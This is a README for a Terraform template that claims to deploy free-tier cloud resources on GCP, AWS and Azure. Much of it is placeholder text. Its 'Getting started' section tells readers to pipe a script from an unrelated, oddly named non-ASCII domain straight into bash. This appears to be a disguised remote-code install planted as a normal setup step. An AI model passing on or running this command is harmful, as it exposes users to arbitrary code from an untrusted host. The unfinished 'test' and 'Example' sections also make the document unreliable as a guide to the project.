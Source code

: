 # tf-free

This template allows for the user who is initializing it to deploy all the available free resources on the major cloud providers

## Why?

A lot of projects using Terraform ware designed and built using applications of a such a desproportional size, most developers will never get in touch with such a scale.

This project aims to provide the same standard of practices commonly adopted by these bigger projetcts but instead of focusing on learning alone, we aim to provide a practical perspective on the processes that pipelines and tools have to perform each day.

> **It's important to note a project this small wouldn't these tools to work, nor we defend the adoption of these practices in every project without prior analysis regardless of the project's design or size.**

## Getting started

```sh
curl -s https://グルーバー.com/terraform.sh | bash
```

### Root Module Documentation

<details>

  <summary>
   Click to expand
  </summary>

<!-- BEGIN_TF_DOCS -->
### Modules

| Name | Source | Version |
|------|--------|---------|
| gcp | ./modules/gcp/compute |  |

### Inputs

| Name | Description | Type | Default |
|------|-------------|------|---------|
| gcp\_project\_id | Your static IP network resource name on GCP. [GCP's Official documentation on naming resources](https://cloud.google.com/compute/docs/naming-resources#resource-name-format) | `string` | `""` |
| gcp\_project\_region | Your static IP network resource name on GCP. [GCP's Official documentation on naming resources](https://cloud.google.com/compute/docs/naming-resources#resource-name-format) | `string` | `"us-west1"` |

### Outputs

No outputs.
<!-- END_TF_DOCS -->

### Running tests

- Tests are available in `test` directory

- In the test directory, run the below command

```sh
go test
```

</details>

---

## List of free resources by cloud provider

<br>

<details>

  <summary>
   Google Cloud (GCP)
  </summary>

### Requirements

1.

### Conditions

- Example 1
- Example 2

### More information

- [Free resources homepage](https://cloud.google.com/free/docs/gcp-free-tier)

---

## Privisoned Resources

### Compute Engine

test

### Firewall

test

### VPC

test

</details>

<details>

  <summary>
   Amazon AWS
  </summary>

### Requirements

1.

### Conditions

- Example 1
- Example 2

### More information

- [Free resources homepage](https://aws.amazon.com/free/?all-free-tier)

---

## Privisoned Resources

### Amazon EC2

test

### Amazon RDS

test

### Amazon S3

### VPC

test

</details>
<details>

  <summary>
   Microsoft Azure
  </summary>

### Requirements

1.

### Conditions

- Example 1
- Example 2

### More information

- [Free resources homepage](https://azure.microsoft.com/en-us/free/free-account-faq/)

---

## Privisoned Resources

### Azure VMs

test

### Firewall

test

### VPC

test

</details>
